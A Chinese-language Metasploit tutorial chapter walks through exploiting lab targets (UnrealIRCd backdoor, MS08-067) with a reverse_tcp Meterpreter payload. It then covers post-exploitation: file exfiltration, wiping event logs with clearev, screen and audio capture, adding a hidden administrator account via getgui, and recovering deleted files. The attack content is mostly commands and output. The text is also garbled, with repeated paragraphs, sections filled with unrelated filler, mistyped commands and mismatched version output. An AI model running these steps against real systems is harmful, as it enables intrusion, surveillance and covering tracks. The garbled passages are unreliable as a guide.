

```
msf >
+ = metasploit v4.7.8-2018039101 [core:4.7 api.1.0]
+ --= 1169 exploits - 643 auxiliary - 186 post
+ --= 312 payloads - 30 encoders - 8 nops
```

Metasploit Framework 是一个用于漏洞测试和利用的综合平台。它加载了数千个漏洞、数百个有效负载和多个编码器。

我们将在本章介绍 Metasploit 的基础知识，然后在后面的章节中介绍如何使用 Metasploit 攻击测试目标。如果你已经熟悉 Metasploit，可以跳过本章或将其复习。

## 更新

通常更新 Metasploit 只需运行`msfupdate`，但根据 Rapid 7 网站，Metasploit 的更新与 Kali 同步的。

(https://community.rapid.com/thread/30)

## Metasploit 概述

你可以通过两种方式启动 Metasploit：从菜单或终端。

一旦 Metasploit 加载，你将看到以下屏幕并获得提示符：

```
msf >
+ = metasploit v4.7.8-2018039101 [core:4.7 api.1.0]
+ --= 1169 exploits - 643 auxiliary - 186 post
+ --= 312 payloads - 30 encoders - 8 nops
```

当所有其他方法都失效且你在 Metasploit 或 Meterpreter shell 中感到迷茫时，尝试输入`help`命令。

你也可以使用`tab`键来自动补全行，或按两次显示所有可用漏洞和有效负载。

使用 Metasploit 攻击目标通常涉及：

1. 选择漏洞（Exploit）
2. 设置漏洞选项
3. 选择有效负载（Payload）
4. 设置有效负载选项
5. 运行漏洞
6. 连接到系统
7. 执行后渗透

根据漏洞的类型，一旦我们的利用完成，我们通常会获得一个远程 shell 或 Meterpreter。

远程 shell 基本上是一个终端连接或远程桌面的文本版本。它允许我们像坐在键盘前一样输入命令。

但 Meterpreter 提供了许多有趣的程序和实用程序，我们可以运行它们来获取目标机器的信息、控制摄像头和麦克风等设备，甚至利用这个脚点获得对网络的进一步访问权限。

当然，如果需要，你可以随时切换到普通的 shell。

在大多数情况下，取决于你想做什么，Meterpreter Shell 比比普通的 shell 更有优势。

我们稍后会讨论 Meterpreter Shell，但现在让我们先快速涵盖前几个步骤。

## PostgreSQL 数据库

你需要做的只是在运行`msfconsole`之前启动 PostgreSQL 数据库（虽然不运行它搜索也能工作，只是速度会慢一些）。

要在终端提示符启动数据库，请输入以下命令：

- `sudo service postgresql start`
- `service metasploit start`
- `msfconsole`

Metasploit 允许你通过多种方式搜索漏洞，包括通过平台，甚至是 CVE（常见漏洞与披露）编号和 bugtrack 编号。

输入`help search`可以查看所有选项：

```
msf> help search [keywords]
Usage: search [keywords]

Keywords:
app      : 客户端或服务器攻击的模块
author   : 由此作者编写的模块
bug       : 匹配 Bugtrack ID 的模块
cve      : 匹配 CVE ID 的模块
edb      : 匹配 Exploit-DB ID 的模块
name     : 匹配描述名称的模块
osvdb    : 匹配 OSVDB ID 的模块
platform  : 影响此平台的模块
ref      : 匹配 ref 的模块
type     : 特定类型的模块（漏洞利用、辅助或后渗透执行）

Examples:
search cve:2009 type:exploit app
```

要按名称搜索，只需输入`search`和你想要的文本。例如，为了查看 Metasploit 是否有针对微软安全公告 MS13-069 漏洞的利用程序：

```
msf> search ms13-069
Matching Modules

Name Disclosure Date Rank Description
exploit/windows/browser/ms13-069.ms1 2013-09-10 00:00:00 UTC normal MS13-069 Microssoft Internet Explorer CC Use-After-Free
```

查看特定的 CVE ID 编号：

```
msf> search cve:2013-3668
Matching Modules

Name Disclosure Date Rank Description
exploit/windows/local/ppr_flatten_rec 2013-05-15 00:00:00 UTC average Windows EPA THOB:pprFlattenRec Local Privilege Escalation
```

查看今年的所有的 CVE ID（截断列表）：


```
msf> search cve:2013
Matching Modules
-----------------------------------------------------------------------------------------------------------------
Name                               Description                               Disclosure Date
Rank                                                                               
normal  auxiliary/admin/foreman_openstack_satellite_priv_esc      2013-06-06 00:00:00
normal  Normal (Red Hat OpenStack/Satellite) use:Mass Assignment      2013-05-15 00:00:00
normal  auxiliary/admin/mutiny_frontend_read_delete
normal  auxiliary/admin/mutiny_arbitrary File Read and Delete      2013-01-20 00:00:00
normal  auxiliary/admin/rails_device_pass_reset
normal  auxiliary/admin/rails_config_Password_Reset      2013-04-03 00:00:00
normal  auxiliary/admin/sophos_wpa_traversal
normal  Sophos Web Protection Appliance_cgi Directory Traversal  2013-01-22 00:00:00
normal  auxiliary/scada/ge_profibus_substitute_traversal      2013-06-18 00:00:00
normal  auxiliary/dos/canon_wireless_printer
normal  auxiliary/dos/canon_wireless_printer_denial_of_service
normal  Canon_Wireless_Printer_Denial_of_Service                                     2013-05-30 00:00:00
normal  auxiliary/dos/monkey_headers
```

或者要查看特定程序的漏洞信息，只需使用其名称即可：

```
msf> search unreal
```

当你使用一个想要了解更多信息的漏洞时，只需复制粘贴完整路径并使用`info`命令：

```
msf>info exploit/unix/irc/unreal_ircd_3281_backdoor
```

这将显示该漏洞利用程序的完整信息界面：

```
Automatic targets:
Id Name
@ Automatic Target

Basic options:
Name                Current Setting      Required        Description
HOST                    yes             The target address
PORT                6667                yes             The target port

Payload information:
Space: 1024

Description:This module exploits a malicious backdoor that was added to the
unreal IRCD 3.2.8.1 download archive. This backdoor was present in
the Unreal_3.2.8.1.tar.gz archive between November 2009 and June 12th
2010.
References:
http://cvedetails.com/cve/2010-2075/
http://www.osvdb.org/65445
http://www.unrealircd.com/txt/unrealcadvisory.20130612.txt
```

信息界面显示了作者姓名、简要概述（未显示）以及可以设置的基本选项、漏洞的描述以及网站安全公告引用（已显示）。

如上面的图片所示，我们可以为此漏洞设置几个选项，这将引导我们下一个章节。但在设置漏洞之前，我们需要“使用”（`use`）它。一旦我们有了想要的漏洞，只需运行漏洞名称运行`use`命令。

```
msf> use exploit/unix/irc/unreal_ircd_3281_backdoor
msf exploit(unix/irc/unreal_ircd_3281_backdoor) >
```

好了，我们现在正在使用漏洞，如何设置选项呢？

# 设置漏洞选项

在 Metasploit 中设置选项非常简单，使用`set`命令后跟变量名，然后是值：`set <Variable Name> <Value>` (img/ff9cd19afe44ae5427ee29e66f_0)

要设置可以设置哪些变量，使用`show options`命令 (img/ff9cd19afe44ae5427ee29e66f_1)。该漏洞使用了变量`RHOST`和`RPORT`。`RHOST`是我们要攻击的远程主机，`RPORT`是远程端口。

如果我们提前并设置`RHOST`变量。如果目标系统的 IP 地址是`192.168.0.20`，则使用以下命令：

```
msf exploit(unreal_ircd_3281_backdoor) > set RHOST 192.168.0.20
RHOST => 192.168.0.20
msf exploit(unreal_ircd_3281_backdoor) >
```

如果我们再次运行`show options`命令，可以看到变量已经设置好了：

| Name | Current Setting | Required | Description |

| :--- | :--- | :--- | :--- |

| RHOST | 192.168.0.20 | yes |目标地址 |

| RPORT | 6667 | yes | 端口 |

这就是该漏洞中你需要设置的所有内容。你现在可以运行`exploit`命令来执行。如果你感到有点迷，不要担心，我们将在后续章节详细介绍。

## 多目标类型

Unreal 后门是一个相当容易使用的漏洞。有些漏洞有你需要设置的多个变量，它们可能有一些可以配置的可选变量。

当你使用 Metasploit 时，会发现有多个可以攻击的目标类型，并且漏洞工作需要设置精确的目标。查看目标，使用`show targets`。在上面的漏洞中，目标是自动的，所以我们不需要设置。

```
msf exploit(unreal_ircd_3281_backdoor) > show targets
Exploit targets:
Id Name
--
0 Automatic Target
```

但在其他漏洞中，有很多目标，我们需要选择正确的一个。

## 在 Windows XP 上获取远程 shell

我们简要看了 Linux 漏洞，让我们运行`ms08-067`漏洞，因为它是流行的 Windows 漏洞之一。

1. 开始，直接使用漏洞：

`msf > use exploit/windows/smb/ms08_067_netapi`

2. 现在输入`show options`：(img/ff9cd19afe44ae5427ee29e66f_38_0) 注意默认目标设置为“自动目标”。我使用自动目标的结果不一，有时如果你设置了精确的目标，效果更好。

3. 如果我们想设置特定目标，使用`show targets`：

`msf exploit(ms08_067_netapi) > show targets` (img/ff9cd19afe44ae5427ee29e66f_38_1)

4. 那么，输入`set target <ID#`来设置实际目标。

`msf exploit(ms08_067_netapi) > set target 2`

`target => 2`

5. 再次通过`show options`将显示我们确实设置了目标值：

## 漏洞目标：

| Id | Name |

| :--- | :--- |

| 2 | Windows XP SP0/SP1 Universal |

最后，虽然在常规漏洞中未使用，但如果我们需要，也可以设置高级选项。要显示高级选项，只需输入`show advanced`：

```
msf exploit(ms08_067_netapi) > show advanced
Module advanced options:
Name : CHOST
Current Setting : 本地客户端地址
Description : 
Name : CPORT
Current Setting : 
Description : 本地端口
Name : ConnectTimeout
Current Setting : 10
Description : 建立 TCP 连接的最大秒数
Name : ContextInformationFile
Current Setting : 
Description : 包含上下文信息的文件
```

现在我们已经看到了如何选择漏洞以及如何设置选项。在许多漏洞中，我们还需要设置载荷（`payload`）。

## 选择载荷

如果不能对机器做任何事情，利用机器还有什么乐趣呢？载荷允许你对被利用的系统执行某些功能操作。Metasploit 提供了许多可以使用不同的载荷。要查看它们，只需输入`show payloads`：

```
msf exploit(ms08_067_netapi) > show payloads
Compatible Payloads
=================
Name                        Disclosure Date Rank Description
option
generic/custom                               normal Custom
Payload
generic/debug_trap                             normal Generi
debug Trap
x86/shell_bind_tcp                             normal Generi
Command, Shell_bind_tcp INLINE                normal Generi
x86/shell_reverse_tcp                     normal Generi
Command, Shell, Reverse_TCP INLINE            normal Generi
tight_loop                                     normal Generi
windows/inject/bind_ipv6                       normal Reflecti
ive DLL Injection, Bind TCP Stager (IPv6)
windows/inject/bind_metf_tcp  *             normal Reflecti
```

或者你输入`set payload`并按两次回键。这将提示 Metasploit 询问你是否想查看所有可用的载荷（`payload`）：

大多数载荷以“操作系统/Shell 类型”的形式列出，如下：

- `set payload/osx/x86/shell_reverse_tcp`

- `set payload/linux/x64/shell_reverse_tcp`

- `set payload/windows/shell_reverse_tcp`

- `set payload/windows/meterpreter/reverse_tcp`

只需为你的目标选择正确的操作系统，并挑选你想要的载荷即可。

最常用的载荷类型是 shell，包括普通的远程 shell 或 Meterpreter shell。

如果我们需要使用一个远程终端 shell 来远程运行命令，请使用标准 shell。如果你希望具备操纵会话并运行扩展命令的能力，你将需要 Meterpreter shell（我们将在下一章中详细讨论）。

载荷有不同的方式向攻击系统返回通信。我通常更倾向于使用`reverse_tcp` shell，因为一旦它们在目标系统上执行，就会告诉攻击机器向外连接到我们的 Kali 系统。

这样做的一个大优势是，由于受害者机器在技术上是“发起”向外的连接，它通常不会被防火墙拦截，而从外部尝试的连接极有可能会被拦截。

一旦我们知道想要使用哪个载荷，就可以使用`set`命令进行设置。

- 6. 所以，对于我们的示例，让我们为 Windows 系统使用 Meterpreter shell 并让它通过 TCP 连接回我们：

```
msfploit(msfd_006_metafpi) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
```

现在载荷已经设置好，我们只需要为它设置选项。

# 设置载荷选项

载荷的选项设置方式与设置漏洞（`exploit`）完全相同。通常载荷设置包括漏洞向外连接的 IP 地址和端口。

这些选项也是通过`set`命令设置的。

- 7. 输入`show options`查看载荷需要什么：

如上面的图片所示，当我们运行该命令时，会出现一个标题为“Payload options”的新部分。我们还有三个可以设置的新选项：“`EXITFUNC`、`LHOST`和`LPORT`”。

我们将`EXITFUNC`和`LPORT`的设置保持为默认值。

- 8. 但我们需要在`LHOST`中填入本地主机地址。这是我们 Kali 系统的 IP：

```
msf exploit(ms08_067_netapi) > set LHOST 192.168.0.10
LHOST => 192.168.0.10
```

一旦设置好载荷选项，我们就可以运行漏洞。

# 运行漏洞

在开始时，最后运行一次`show options`命令并双重检查一切是否设置正确是一个好主意。

```
msf exploit(ms08_067_netapi) > show options
Module options (exploit/windows/smb/ms08_067_netapi):
| Name | Current Setting | Required | Description |
| :--- | :--- | :--- | :--- |
| RHOST | yes | yes | 目标地址 |
| RPORT | 445 | yes | 设置 SMB 服务端口 |
| SMBPIPE | BROWSER | yes | 使用的管道名称 (BROWSER, SRSVCS) |
```

如果你注意上面，似乎我们忘记设置目标系统的（`RHOST`）IP 地址了！我们在上一个示例中设置了`RHOST`，但当我们切换漏洞时，从未重新设置远程主机的 IP 地址。当你运行许多漏洞或攻击不同的系统时就会发生这种情况，所以双重检查你的设置是一个好主意。

- 9. 通过输入以下设置`RHOST`选项：

```set RHOST 192.168.0.20\```

最后检查一次选项，一切看起来良好：



我们的载荷已选好，所有需要的选项都已设置完毕。

我们现在可以运行漏洞了。

- 10. 要执行这一点，只需使用`exploit`命令。

```
msf exploit(ms08_067_netapi) > exploit
```

漏洞运行，如果成功，载荷就会执行；如果漏洞生效，我们就会获得远程连接。

# 连接到远程会话

一旦漏洞成功，我们就可以查看创建的任何远程会话。要检查创建了哪些会话，输入`sessions`命令。

任何创建的会话都会同目标系统的 IP 地址、计算机名和用户名一起显示。



我们现在可以像上面的示例会话一样，使用`sessions -i <ID#>`命令交互式连接到会话。

当我们连接到会话时，提示符将变为 meterpreter 提示符：

```
meterpreter >
```


我们将在下一章深入介绍 Meterpreter shell。但现在，如果我们输入“shell”命令，可以看到我们确实有一个 Windows 系统的远程 shell。

在这一相当冗长的介绍中，我们学习了 Metasploit 的基础。在后续章节中，我们将深入探讨 Meterpreter shell。但现在，如果我们只是输入“shell”命令，我们可以看到我们确实有一个 Windows 系统的远程 shell。

你只需使用`session -i <session #>`命令即可返回你的会话。

- Load and Run – 加并运行：这些命令允许你在 Meterpreter 内部使用额外的模块和命令。
- Exit – 退出：退出 Meterpreter。

## 文件系统命令

当你拥有 Meterpreter shell 时，你基本上在处理两个文件系统：本地和远程。文件系统命令允许你对这两个系统进行交互。



基本上，你可以使用标准的 Linux 命令进行移动和使用文件系统。你如何区分本地系统和你所连接的远程系统呢？

所有命令均假设在**远程**系统上执行。例如，要列出远程系统的目录列表，只需使用`ls`命令：



如果在远程机器上创建一个名为“test”的目录，我们可以进入该目录，然后列出内容：

```text
meterpreter > mkdir test

Creating directory: cd test

meterpreter > cd test

meterpreter > ls

Listing: C:\Users\Fred\Desktop\test

=====================================

Mode                Size Type        Last modified                 Name

40777/rwxrxr-xr-x        0         dir             2013-10-20 20:34:39 -0400  

40555/-r-xr-xr-x        0         dir             2013-10-20 20:34:39 -0400  

meterpreter >
```

当你需要在本地（Kali）文件系统中移动时，可以使用几个命令。

- Getwnd & lpwd – 获取（显示）本地工作目录
- Lcd – 更改本地目录

所以，如果我们需要检查本地工作目录，然后切换到 Kali 系统上的桌面目录，我们可以可以执行以下操作：

```text
meterpreter > lpwd

/root

meterpreter > lcd Desktop

meterpreter > getwnd

/root/Desktop

meterpreter >
```

`Download`允许你从目标系统下载文件，反之，`upload`允许你向远程系统发送文件。

所以，如果我们需要上传文件，只需连接到你所需的本地和远程目录，并带有要发送的文件名执行`upload`命令，如下：

```text
meterpreter > lcd Desktop

meterpreter > lpwd

/root/Desktop

meterpreter > cd test

meterpreter > pwd

C:\Users\Fred\Desktop\test

meterpreter > upload Tools : Tools -> Tools

[*] uploading : Tools -> Tools

[*] uploaded : Tools -> Tools

meterpreter > ls

Listing: C:\Users\Fred\Desktop\test

=====================================

Mode                Size Type        Last modified                 Name

40777/rwxrxr-xr-x        0         dir             2013-10-22 08:15:25 -0400  

40555/-r-xr-xr-x        0         dir             2013-10-22 08:12:36 -0400  

100666/rwxr-xr-nw-        0         dir             2013-10-22 08:15:25 -0400 Tools

meterpreter >
```

我们连接到了存放工具文件的 Kali 机器上的桌面。然后我们连接到目标上的“test”目录，简单地使用`upload`命令传输文件。

`Download`的工作方式相同，只需使用`download`和文件名从远程系统拉取文件并存储在本地 Kali 机器上：

```text
interpreter > download AccountInfo.txt

[*] downloading: AccountInfo.txt -> AccountInfo.txt

[*] downloaded : AccountInfo.txt -> AccountInfo.txt
```

现在让我们来看看网络命令。

## 网络命令

这些命令允许你显示和操纵一些基础网络功能。



- Arp – 显示远程 MAC 地址到实际 IP 地址的列表。
- Ifconfig & ipconfig 均显示远程系统上的任何网络接口。
- Netstat – 显示活动网络连接列表。
- Portfwd 和 route 允许你进行一些高级路由攻击。虽然我们不会在书中介绍这些内容，但使用这两个命令允许你利用已漏洞的机器作为跳板，或攻击目标网络或网络中的其他机器。

## 系统命令

下面是系统命令列表。我们不会涵盖所有命令，但再次，阅读一遍列表以熟悉它们是有好的：

| Command | Description |
| :--- | :--- |
| `clevars` | 清除事件日志 |
| `drop_token` | 放弃任何活跃的身份伪装令牌。 |
| `execute` | 执行命令 |
| `getid` | 获取当前进程标识符 |
| `getprivs` | 尝试为当前进程启用所有权限 |
| `getuid` | 获取运行服务器的用户 |
| `kill` | 终止进程 |
| `ps` | 列出运行中的进程 |
| `reboot` | 重启远程计算机 |
| `reg` | 修改并与注册表交互 |
| `rev2` | 在远程机器上调用`RevertToSIF()` |
| `drop` | 丢弃系统命令 |
| `shutdown` | 关闭远程计算机 |
| `steal_token` | 尝试从目标进程窃取身份伪装令牌 |
| `suspend` | 暂停或恢复进程列表 |
| `sysinfo` | 获取远程系统（操作系统）信息 |

`CLEAREV`这个实用的小命令将尝试清除远程计算机上的日志。

我们要擦痕迹并清除目标机器上的系统日志。如果我们查看 Windows 7 系统侧的日志，可以看到它充满了事件：



其中一些事件可能包含了我们所做的。我们可以通过输入`clearev`从 Kali 系统远程清除日志：

```text
> clearev

[!] Wiping 1587 records from Application...

[!] Wiping 5148 records from System...
```


上面的摄像头截图是我某天拍我我的猫的真实照片。我不确定为什么猫非要睡在笔记本电脑键盘上，但我现在知道是谁在网上订购了所有的金枪枪鱼了……

# 截图（SCREENSHOTS）

你可以使用`screenshot`命令获取目标显示器上当前显示的任何内容的快照：

```text
meterpreter > screenshot

Screenshot saved to: /root/Desktop/S0nfwcN.jpeg
```

如果我们打开这个文件，会看到这个：



好吧，除了让他的系统感染了后门漏洞之外，看来我们的明星员工在工作时花费了宝贵的时间玩网游。  
真不错……

# 音频录音（SOUND RECORDING）

录音的操作非常相似，只需输入`run sound_recorder -h`查看选项，或者如果你想获取一段30秒的音频片段，在不带任何选项的情况下运行命令：

```text
$ meterpreter > run sound_recorder

[+] Saving recorded audio to /root/.msf4/logs/scripts/sound_recorder/LAPTOP_2013_1022,2739

[+] Recording a total of 00m

[+] Audio saved to: LAPTOP1.wav
```

然后你可以在 Kali 系统上打开保存的文件进行收听：


# 运行脚本（Running Scripts）

本节我们将涵盖的最后一个主题是运行脚本。Meterpreter 有超过200个脚本，你可以运行它们来进一步扩展你的利用工具包。

我们实际上已经接触过这些了。我们使用了`run`命令来使用音频和摄像头脚本攻击。我们将花时间介绍其中几个。

要查看所有可用脚本的列表，只需`Run <tab><tag>`：

```text
$ meterpreter > run

Display all 213 possibilities?(y or n)
```

然后只需输入你想尝试的脚本名称并`run`。  
这里是几个比较有趣的脚本：

## CHECKVM

有时当你获得远程 shell 时，你不确定自己是在虚拟机中还是在一台独立电脑上。你可以用此命令进行检查。

```text
$ meterpreter > run checkvm

[+] Checking if target is a Virtual Machine ....

[+] This is a VMware Virtual Machine
```

如你所见，它正确地判断出目标是一个 VMware 虚拟机。

## GETGUI

Getgui 是一个很巧的小脚本，它允许你在 Windows 机器上启用远程桌面（如果尚未启用）并创建一个远程桌面用户。

该用户会被同时添加到远程桌面用户组和管理员组。如果你想在日后某天连接回这台机器，这非常方便。

首先，运行`run getui-e`来启用桌面：

```text
meterpreter > run getui-e

> Windows Remote Desktop Configuration Meterpreter by Darkpreter

> Carlos Perez carlos_perez@darkpreter.com

> Enable Remote Desktop, enabling it ...

> RDP is disabled, starting service mode

> Setting Terminal Services service startup mode

> The Terminal Services is not set to auto, changing it to auto ...

> Reboot if necessary

> For cleanup command: run multi_console_command -rc /root/.msf4/logs/scripts/getui

1/clean.up 20131102.5019.rc
```

然后再次运行程序并给出一个要使用的用户名和密码：

```text
meterpreter > run getui -u EvilUser -p P$$password

> Windows Remote Desktop Configuration Meterpreter by Darkpreter

> Carlos Perez carlos_perez@darkpreter.com

> Setting user account for login

> Adding User: EvilUser with Password: P$$password

> Hiding user from login screen

> Adding User: EvilUser to local group 'Remote Desktop Users'

> Adding User: EvilUser to local group 'Administrators'

> You can now login with the created user

> For cleanup command: run multi_console_command -rc /root/.msf4/logs/scripts/getui

1/clean.up 20131102.5019.rc
```

现在我们只需要打开终端并运行 Kali 自带的`rdes`命令来连接到 Windows 远程桌面：

```text
root@kali:~# rdesktop -u EvilUser -p - 192.168.198.132

Autoselected keyboard map en-us

Password:
```

`-p -`选项告诉`rdesktop`向你提示输入密码。这要安全一些，因为你没有通过网络发送明文密码。

一旦我们登录，我们将在 Kali 机器上获得一个图形化的 Windows 桌面：

还有其他的脚本可以尝试用来关闭杀病毒软件、禁用目标防火墙、从 Firefox、ftp 程序等多个程序获取伪迹和凭据，以及更多功能。

花点时间去研究它们。

## 远程 Shell（Remote Shell）

最后，让我们看看如何获取一个真实的`C:\`提示符。一旦有了 Meterpreter，这极其简单。只需输入命令`shell`。

```text
meterpreter > shell

Process 3044

Channel 1 created.

Microsoft [Version] 10.0.19045.3208 (c) Microsoft Corp. All rights reserved.

C:\Users\Administrator>
```

一旦有了 Meterpreter，这就可以获取真实的`C:\`提示符。这极其简单。只需输入命令`shell`。

## 玩模块（Playing with Modules）

一旦我们有了 Meterpreter，这就可以获取真实的`C:\`提示符。这极其简单。只需输入命令`shell`。

## 恢复删除的文件（Recovering Deleted Files）

一旦我们有了 Meterpreter，这就可以获取真实的`C:\`提示符。这极其简单。只需输入命令`shell`。

随着我们的进行，看起来有 3 个用户账户（包括密码），我们已经能够从远程机器上恢复了它们！

但如果我们想恢复 pdf 文件呢？

再次，简单地`set FILES pdf`并运行利用程序：

```text
msf post(recovery_files) > set FILES pdf

FILES set=pdf

msf post(recovery_files) > run

* System - OS: Windows 7 (Build 7601, Service Pack 1), Drive: E:

* FILE is made up of 1 datas

* Searching deleted files in data run 1...

* Name: R06957.pdf ID: 103778868

* Hidden file found

* File to download: $R06957.pdf (12865 bytes)

* File saved on /root/msf/loot/2013103015215_default_192.168.192.132_nonident.file_751604.pdf

* Name: R06974.pdf ID: 103779712

* $106957.pdf ID: 1037738808

* Hidden file found!

* File to download: $106957.pdf

* The file is resident. Saving /root/msf/loot/20131030152280_default_192.168.192.132_resident.file_896603.pdf

* Name: IG0CHY7.txt ID: 103784832

* MRT entries finished

* Mobile execution completed

msf post(recovery_files) >
```


和上次一样，恢复的文件存储在`loot`目录。我们可以打开 PDF 来验证它是否起作用：

